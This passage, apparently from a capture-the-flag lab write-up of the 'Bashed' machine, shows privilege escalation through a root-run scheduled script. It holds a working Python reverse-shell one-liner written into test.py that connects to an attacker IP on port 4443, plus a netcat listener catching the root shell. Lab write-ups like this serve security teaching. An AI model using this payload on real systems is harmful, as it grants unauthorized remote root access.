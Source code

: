 
```
scriptmanager@bashed:/$ cd scripts
cd scripts
scriptmanager@bashed:/scripts$ ls -al
ls -al
total 28
drwxrwxr--  2 scriptmanager scriptmanager  4096 May  8 14:56 .
drwxr-xr-x 23 root          root           4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager 12288 May  8 13:04 .test1.py.swp
-rw-r--r--  1 scriptmanager scriptmanager    60 May  8 13:14 test.py
-rw-r--r--  1 root          root             12 May  8 13:12 test.txt
```
Interesting. There are two files in here owned by root. Let's check `test.py`:

	scriptmanager@bashed:/scripts$ cat test.py
	cat test.py
	f = open("test.txt", "w")
	f.write("testing 123!")
	f.close

It seems like the owner made a file called test.txt and wrote some data into it. Notice that test.txt is owned by root. This suggests
that test.py can run commands with root privileges. I am going to overwrite it to get access to the system as root.

## <span style="color:red">Shell as root</span>

```bash
scriptmanager@bashed:/scripts$ echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",4443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' > test.py                   
scriptmanager@bashed:/scripts$ 
```

I used the same reverse shell payload that we used earlier to gain access to this system, but this time via a different port (`4443`). Then, all I had to do was
start up a netcat listener and get shell as root:

```
$ nc -lnvp 4443             
listening on [any] 4443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.68] 39546
# whoami
whoami
root
# cd /root && ls
cd /root && ls
root.txt
```
### How? 

You may wonder how the script was executed as root.  
Well, I didn't execute it. The system must have had scheduled execution for test.py. How did
I know? This is because I tried to create a file in `/tmp` through the script. I ran it with python but got a Permission Denied error. This
led me to conclude that it was being run periodically.  

You could also check if this was the case by running `ps aux | grep test` and you'd find that
`python test.py` was being run as root.
